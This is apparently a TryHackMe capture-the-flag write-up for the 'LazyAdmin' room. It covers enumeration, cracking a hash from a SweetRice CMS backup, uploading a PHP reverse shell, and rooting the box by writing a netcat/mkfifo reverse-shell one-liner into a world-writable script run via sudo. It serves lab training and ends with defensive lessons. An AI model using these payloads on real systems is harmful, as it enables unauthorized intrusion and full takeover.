# LazyAdmin - TryHackMe Report



## Target Information
- **Name:** [LazyAdmin](https://tryhackme.com/room/lazyadmin)
- **Platform:** TryHackMe
- **Difficulty:** Easy
- **Creator:** [MrSeth6797](https://tryhackme.com/p/MrSeth6797)

This box challenges you to exploit a vulnerable web application, gain initial access through a compromised CMS, and escalate privileges by exploiting misconfigured permissions. Test your enumeration, web exploitation, and privilege escalation skills in this beginner-friendly room.

---

## Enumeration

### **Nmap Scan**

```bash
nmap -sS -sC -sV -T4 -p- 10.10.213.231 -oN /home/kali/boxes/lazyadmin/nmap.txt
```

**Flags Explained:**
- `-sS`: SYN Scan (stealth)
- `-sC`: Run default scripts
- `-sV`: Version detection
- `-T4`: Aggressive timing
- `-p-`: Scan all 65,535 ports
- `-oN`: Save output to a file



**Results:** Ports **22 (SSH)** and **80 (HTTP)** are open.  

---

### **Gobuster - Directory Enumeration**

```bash
gobuster dir -u http://10.10.213.231 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,xml -o /home/kali/boxes/lazyadmin/gobuster.txt
```

**Flags Explained:**
- `-w`: Wordlist used for brute-forcing
- `-t`: Number of threads
- `-x`: File extensions searched (.php, .html, .xml)
- `-o`: Output file



**Findings:**
- **`/content`** → Leads to a **SweetRice CMS** installation.
- **`/content/as`** → **Login page** found.
- **`/content/inc/mysql_backup/`** → Downloadable MySQL backup file.




---

## Exploitation

### **Hash Identification & Cracking**

Extracted a **credential hash** from the MySQL backup file:



```bash
haiti [hash]
```

**Result:** Hash identified as **MD5**.

Cracked using **Hashcat**:

```bash
hashcat -m 0 [hash] /usr/share/wordlists/rockyou.txt
```

**Password Recovered:** ✅



---

## Gaining Access

- **SSH login failed** with recovered credentials.
- **Successfully logged into SweetRice CMS Admin Panel.**



Uploaded a **reverse PHP shell** via the **theme editor**:



Set up a **Netcat listener**:

```bash
nc -lvnp 4444
```

Executed shell payload → **Reverse shell obtained!**



---

## **Post-Exploitation: Basic Enumeration**

Upgraded shell for better usability:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```



Performed system enumeration:

```bash
whoami && id
uname -a
cat /etc/os-release
sudo -l
```

**Findings:**
- User: `www-data`
- OS: Ubuntu 16.04.6 LTS
- Kernel: 4.15.0-70-generic
- **Sudo Privileges:**
  - `(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl`

This privilege allows executing the `backup.pl` script as **root** without a password, presenting a potential **privilege escalation** path.




---

## **Privilege Escalation**

Located **backup.pl** and **user.txt**:

```bash
cd /home/itguy
ls -la
cat user.txt
```



Found **backup.pl** executing `/etc/copy.sh`:

```bash
cat backup.pl
```

```bash
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

Checked **copy.sh** permissions → **Writable by others!**

```bash
ls -la /etc/copy.sh
```

```
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Injected a reverse shell payload:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP Address] 6666 >/tmp/f' > /etc/copy.sh
```



Set up Netcat listener:

```bash
nc -lvnp 6666
```

Executed backup script to trigger shell:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```



Successfully gained **root access**!

```bash
whoami && id
```



---

### **Root Flag**

```bash
cd /root
ls -la
cat root.txt
```

```
THM{REDACTED}
```



---

## **Tools Used**

- **Nmap** → Network scanning
- **Gobuster** → Directory enumeration
- **Hashcat** → Password cracking
- **[Pentest Monkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)** → Gaining access
- **Linux Enumeration Commands** → Privilege escalation

---

## **Conclusion**

### **Successfully Achieved:**
- Gained **initial access** via SweetRice CMS.
- Escalated privileges through misconfigured sudo permissions.
- Captured **both user and root flags**.

### **Key Security Issues Identified:**
- **Weak Password Management:** The `manager` account used `Password123`, easily cracked.
- **Misconfigured Permissions:** `backup.pl` allowed privilege escalation due to incorrect sudo permissions.
- **Lack of Input Sanitization:** Uploading and executing a PHP shell highlights the importance of input validation.

### **Final Thoughts**
- **Always enforce strong password policies.**
- **Restrict script execution permissions.**
- **Sanitise and validate user inputs to prevent web-based attacks.**

---
